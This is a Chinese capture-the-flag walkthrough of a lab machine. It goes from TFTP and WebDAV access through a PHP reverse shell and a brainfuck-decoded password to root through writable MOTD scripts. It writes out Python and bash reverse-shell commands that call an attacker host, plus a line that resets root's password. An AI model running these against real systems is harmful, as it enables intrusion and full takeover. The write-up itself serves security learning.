# Recon

* 通过`fping`定位靶机IP
  
* `nmap`进行全端口扫描
  



# tftp → webdav → cadaver → reverse shell

web主页没什么交互场景，点击`Do Not Click`按钮后会跳转`http://192.168.188.131/images/666.jpg?`，这里url路径后有一个`?`，可能需要Fuzz参数？



feroxbuster扫描得到`/webdav`目录，访问需要`digit`认证

目录扫描增加`.txt`后缀，发现`tips.txt`



`/tips.txt`提示存在`creds.txt`，这么常见的文件名，工具怎么扫不到呢？

```plaintext
Hint to open the door of narak can be found in creds.txt.
```

果然直接访问`/creds.txt`不存在，机器比较简单只有22/tcp和80/tcp，既然80端口访问不到，可能需要把视角重新转向端口扫描

通过对`udp top 100`端口进行扫描，发现`69/udp`端口可能开放了`tftp`服务（简单文件传输协议）



`tftp`服务与`ftp`的区别精髓在于`tftp`服务无法列出目录文件，只能通过目录猜解，而我们以及通过`tips.txt`得到了`creds.txt`路径

get下来发现内容为base64，解码得到`yamdoot:Swarg`



通过devtest测试得到可以上传`txt`、`html`、`php`并解析

```bash
davtest -url http://192.168.188.131/webdav/ -auth "yamdoot:Swarg"
********************************************************
Checking for test file execution
EXEC    txt     SUCCEED:        http://192.168.188.131/webdav/DavTestDir_lQuvD3q/davtest_lQuvD3q.txt
EXEC    txt     FAIL
EXEC    html    SUCCEED:        http://192.168.188.131/webdav/DavTestDir_lQuvD3q/davtest_lQuvD3q.html
EXEC    html    FAIL
EXEC    aspx    FAIL
EXEC    pl      FAIL
EXEC    php     SUCCEED:        http://192.168.188.131/webdav/DavTestDir_lQuvD3q/davtest_lQuvD3q.php
EXEC    php     FAIL
EXEC    cfm     FAIL
EXEC    jhtml   FAIL
EXEC    shtml   FAIL
EXEC    cgi     FAIL
EXEC    asp     FAIL
EXEC    jsp     FAIL
```

通过`cadaver`连接`webdav`可以进行文件的上传与下载，由于`digit`认证很复杂，直接`reverse_shell`比较方便



通过`pwncat-cs`建立监听，浏览器访问`/php-reverse-shell.php`接收到反弹`shell`



通过`pwncat-cs`上传`linpeas.sh`搜集一波信息



`linpeash`执行报错不知道什么原因，直接搜集suid二进制文件

发现也没什么可以做提权的文件



在搜集一波具有`rwx`权限的文件 发现存在/mnt/hell.sh



文件内容输出了一段字符 然后包含一段看着像`jsfuck`的编码 但测试无果 后经过测试为`brainfuck`编码



# shell as inferno

通过[bugku brainfuck](https://ctf.bugku.com/tool/brainfuck)进行解密得到`chitragupt`，可能是一个密码，现在去/home目录看看

发现在`/home/inferno/`下存在`user.txt`，代表目前得到了普通用户的flag，尝试使用解密得到的字符登录`inferno`用户，密码正确，那么可以直接ssh连接



# shell as root

目前得到了普通用户权限于是可以开展新一轮的信息收集

通过`find / -type f -user root -perm -ug=x,o=w -exec ls -l '{}' \; 2>/dev/null`来查找属于root、普通用户和组可执行，其它用户可写的文件，通过`-exec`函数来对查找到文件执行`ls -l`，并把错误输出重定向到`/dev/null`

查找到的文件除了刚刚得到`inferno`用户密码的`/mnt/shell.sh`以外，均属于`motd`文件



## MOTD提权

> MOTD是`message of the day`的缩写，用作在ssh用户登陆时提示欢迎信息（basic info、last login等）



而这些提示信息的生成需要命令的执行，而实现它们的脚本就存放在`/etc/update-motd.d/`目录下

既然这些文件是root权限并且当前用户具有写入权限，提权思路就很明显了

* 写入`reverse shell`指令
  
    不知为何使用`bash`反弹不成功，使用python反弹即可
    
    ```python
    export RHOST="192.168.188.128";export RPORT=8888;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
    ```
    
    
    
* 直接修改root密码
  
    修改`/etc/update-motd.d/00-header` 增加`echo "root:toor"|chpasswd`，重新ssh登录即可修改root密码
    

# Some thinking

> WebDav是什么，在当下的互联网环境中使用得还多吗？

* WebDav目前仍在使用，但不像以前那样普遍的哦那个与简单的网站文件管理，而是在`nas`、`SharePoint`、`日历同步`等场景中扮演重要角色
  
    所以不会经常看到一个网站开放WebDav，但在企业内网、云服务和专业应用中，其依然是一种成熟、可靠且广泛的技术。
    

> WebDav是否受Web中间件、编程语言的技术限制？

* WebDav不受限于任何特定的编程语言，因为它是一个协议规范，而不是一个软件
  
* 协议层面：WebDav是HTTP/1.1协议的一个扩展集。它重用了GET、PUT等HTTP方法，并增加了一些新的方法，如PROPFIND（获取属性），MKCOL（创建集合、目录），COPY、MOVE等
  
* 实现层面：任何能够处理HTTP请求的Web服务器，原则上都可以通过安装相应的模块来支持WebDav
  
    * Apache：这是最经典的实现，通过mod\_dav模块提供服务
      
    * Nginx：通过ngx\_http\_dav\_module实现
      
    * IIS：内置了WebDAV发布功能
      

> TFTP服务是无法设置密码吗？

* 对，TFTP协议的设计初衷就决定了这个特性
  

> 大部分linux发行版都存在MOTD吗？有无例外？

* 是的，MOTD的概念在几乎所有的Linux发行版中都普遍存在，其实现方式有两大类，这直接关系到提权漏洞是否存在。
  
    * 传统的静态OMOTD
      
        * 工作方式：系统在用户登陆时，简单的显示静态文件/etc/motd的内容
          
        * 代表发行版：Centos、Fedora、Rocky Linux担当
          
        * 在这种模式下，/etc/motd文件本身通常是不可执行的。即使能够写入这个文件也只能改变显示的文本内容而无法执行代码，因为不存在MOTD提权漏洞
        
    * 现代的动态MOTD
      
        * 工作方式：系统在用户登陆时，会以root权限依次执行/etc/update-motd.d/目录下的所有脚本，并将这些脚本的输出组合起来，动态生成当此登陆的MOTD信息
        
    * 例外情况：
      
        * 极简发行版如Arch Linux或Alpine LInux，在默认最小化安装中不包含任何MOTD配置
          
        * 嵌入式系统，用于特定设备（路由器、IoT设备）的定制化系统，可能会完全移除MOTD功能来节省空间
          

> MOTD脚本被root拥有却所有用户可写的设定合理吗？

* 不合理，也不是默认配置，仅仅是这道题的设定
  
* 权限维持可能有妙用
  

> 为什么使用bash -i反弹shell失败了？python却成功？

* **谁在运行它？**脚本的是ssh守护进程`sshd`或相关的`PAM`模块\`pan\_motd.so\`在执行，而不是当前具有交互式shell环境的会话
  
    **什么时候运行？**在输入密码、身份验证之后，在真正获得交互式命令提示符之前
    
    **它有终端吗？**没有，这个环境是一个非交互式环境，它没有`tty`或`pty`与之关联。
    
* 为什么`bash -i`反弹失败？
  
    ```bash
    bash -i >& /dev/tcp/1.1.1.1/8888 0>&1
    ```
    
    这个经典的反弹shell命令每个部分都在假设它运行在一个交互式环境中：
    
    * bash -i：请求一个交互式shell。交互式shell期望有一个可以进行双向通信的终端。当它在一个没有终端的环境中启动时，通常会立即退出，因为它找不到预期的输入/输出
      
    * \&gt;& /dev/tcp…：这个bash特有的语法是用来重定向当前的标准输出`(fd 1)`和标准错误输出`(fd 2)`到网络套接字
    
* 冲突点：fd number错误
  
    * 当MOTD脚本运行时，sshd已经控制了fd 1和fd 2，并将它们指向了一个内部管道
      
    * bash反弹的命令试图抢夺这些以及被sshd占用的文件描述符，并将它们指向一个网络套接字
      
    * bash -i启动后，发现它的标准输入流是关闭的或者无效的（因为MOTD环境没有输入），它的标准输出流也处于一种不稳定的状态而无法建立一个有效的交互式会话，因此它会报错并立即退出
    
* 为什么python反弹shell成功了？
  
    python的方法要强大和底层得多，它不依赖于当前shell的环境，而是自己创建一个全新的环境。